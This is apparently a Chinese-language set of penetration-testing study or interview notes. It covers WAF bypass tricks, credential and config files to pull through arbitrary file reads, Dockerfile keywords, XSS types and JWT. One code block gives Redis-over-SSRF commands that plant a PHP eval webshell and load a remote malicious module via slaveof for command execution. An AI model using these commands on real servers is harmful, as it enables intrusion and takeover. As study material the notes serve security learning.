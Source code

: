 #### waf绕过思路
1. 大小写
2. 编码(unicode,url)
3. 特殊字符(换行,%00,)
4. http参数污染
5. 脏数据(传入一段长数据使waf失效)
6. 高并发
7. 语法糖

#### 任意文件读取利用思路
1. /etc/shadow
2. 源码
3. 配置文件(mysql ,apache,tomcat)
4. 日志文件(tomcat,)
5. 命令执行历史
6. 进程相关信息(cmdline,environ,loginuid当前用户)

#### ssrf打redis
```
#写webshell
config set dir /var/www/html
config set dbfilename aaa.php
set xxx "<?php eval($_GET['php'])"
save

#主从复制rce

config set dir ./
config set dbfilename exp.so
slaveof <ip>

module load exp.so
system.exec 'whoami'
```



#### dockerfile关键字
FROM 基础镜像
RUN 执行命令
CMD 容器启动命令
ENTRYPOINT 入口
COPY 复制文件
ADD 添加文件
ENV 环境变量
VOLUME 定义挂载文件夹
WORKDIR 工作目录,指定容器内部的工作目录
EXPOSE 暴露端口

#### dom型和反射性xss的区别
一个过后端服务器,一个不过

#### jwt了解吗,格式是什么样的,有哪些攻击方式,和cookie有什么区别,优劣
